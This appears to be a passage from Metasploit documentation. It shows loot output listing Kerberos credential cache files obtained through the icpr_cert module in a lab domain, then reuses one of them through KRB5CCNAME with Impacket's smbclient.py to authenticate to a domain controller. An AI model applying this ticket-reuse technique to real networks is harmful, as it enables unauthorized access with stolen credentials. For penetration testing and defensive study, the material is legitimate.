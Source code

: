 ```
msf6 auxiliary(admin/dcerpc/icpr_cert) > loot --type mit.kerberos.ccache

Loot
====

host            service  type                 name             content                   info                                                                  path
----            -------  ----                 ----             -------                   ----                                                                  ----
192.168.159.10           mit.kerberos.ccache                   application/octet-stream  realm: MSFLAB.LOCAL, client: smcintyre, server: krbtgt/msflab.local   /home/smcintyre/.msf4/loot/20221219105440_default_192.168.159.10_mit.kerberos.cca_905330.bin
192.168.159.10           mit.kerberos.ccache                   application/octet-stream  realm: MSFLAB.LOCAL, client: smcintyre, server: cifs/dc.msflab.local  /home/smcintyre/.msf4/loot/20221219105440_default_192.168.159.10_mit.kerberos.cca_539055.bin
```

The path on the far right is where the CCACHE file is on disk. This path can be used with other tools such as Impacket
through the `KRB5CCNAME` environment variable.

For example:

```
[user@localhost]$ KRB5CCNAME=/home/smcintyre/.msf4/loot/20221219105440_default_192.168.159.10_mit.kerberos.cca_539055.bin \
  python examples/smbclient.py  dc.msflab.local -target-ip 192.168.159.10 -k
Impacket v0.9.22.dev1+20200327.103853.7e505892 - Copyright 2021 SecureAuth Corporation

Type help for list of commands
# info
Version Major: 10
Version Minor: 0
Server Name: DC
Server Comment:
Server UserPath: c:\
Simultaneous Users: 16777216
#
```

[1]: http://web.mit.edu/KERBEROS/krb5-devel/doc/formats/ccache_file_format.html
